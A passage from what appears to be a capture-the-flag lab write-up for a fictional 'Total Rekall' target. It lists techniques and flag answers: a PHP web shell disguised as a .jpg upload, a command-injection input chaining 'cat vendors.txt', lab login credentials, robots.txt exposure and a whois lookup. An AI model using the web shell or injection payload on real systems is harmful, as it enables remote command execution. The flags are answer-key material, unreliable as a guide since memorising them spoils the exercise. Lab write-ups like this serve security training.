 ### Flag 5: Local File Inclusion Exploit
![image](https://github.com/user-attachments/assets/9617e7ca-c652-4246-b455-903923f803ab)
</br>
```shell
nano lfi.php.jpg

<?php system($_GET['cmd']); ?>

mmssdi73g
```

### Flag 8:  Login.php page
![image](https://github.com/user-attachments/assets/50ac19c5-5ba6-4a14-ae38-18c857564cac)
</br>
```shell
username: dougquaid

password: kuato

87fsdkf6djf
```

### Flag 9:  Sensitive data exposure
![image](https://github.com/user-attachments/assets/f352e0e9-ed93-44b9-ab03-d82699464f6e)
</br>
```shell
192.168.14.35/robots.txt

dkkdudfkdy23
```

### Flag 10: Command injection
![image](https://github.com/user-attachments/assets/7568663d-0f62-4f12-aed1-be1e0c71debf)
</br>
```shell
192.168.14.35&&cat vendors.txt

ksdnd99dkas
```



# Linux Servers

## Reconnaissance

### Flag 1: 
![image](https://github.com/user-attachments/assets/93f04dc9-ea72-41f1-89aa-cecb1134f9d1)
</br>
```shell
whois totalrekall.xyz

h8s692hskasd
```
